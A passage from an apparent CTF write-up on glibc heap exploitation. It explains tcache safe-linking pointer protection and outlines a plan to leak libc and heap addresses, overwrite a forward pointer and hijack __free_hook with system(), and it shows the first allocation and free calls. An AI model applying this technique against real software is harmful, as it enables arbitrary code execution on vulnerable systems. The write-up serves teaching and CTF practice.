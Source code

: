 ![current_chunk_ex.png](images/current_chunk_ex.png)

So the protected forward pointer will equal to:

```
# (<Current chunk address> >> 12) ^ <Previous chunk address> = <protected forward pointer>
  (     0x55555555c2e0     >> 12) ^      0x55555555b2a0      = 0x55500000e7fc
```

So to overwrite forward pointer, we need the address of previous chunk. That's the point we need to notice here.

Reference soure:

https://arttnba3.cn/2020/09/08/CTF-0X00-BUUOJ-PWN/#glibc2-32%E4%B8%8Btcache%E6%96%B0%E5%A2%9E%E7%9A%84%E4%BF%9D%E6%8A%A4

http://blog.nsfocus.net/glibc-234/

- Summary:
  1. Leak main arena address
  2. Leak heap address
  3. Overwrite forward pointer
  4. Overwrite `__free_hook` with system()

# 3. Exploit

Before we exploit, I wrote these function for a convinient exploitation:

<details><summary>Code snippet</summary></details>

And now let's start!

### Stage 1: Leak main arena address

First, we will create a large chunk and then free it to make it go to unsorted bin:

```
add(0, 0x1000, '{}'.format(0).encode()*8)
add(1, 0x10, '{}'.format(1).encode()*8)
free(0)
```

Check in GDB and we can see that the main arena address contains null byte at LSB:
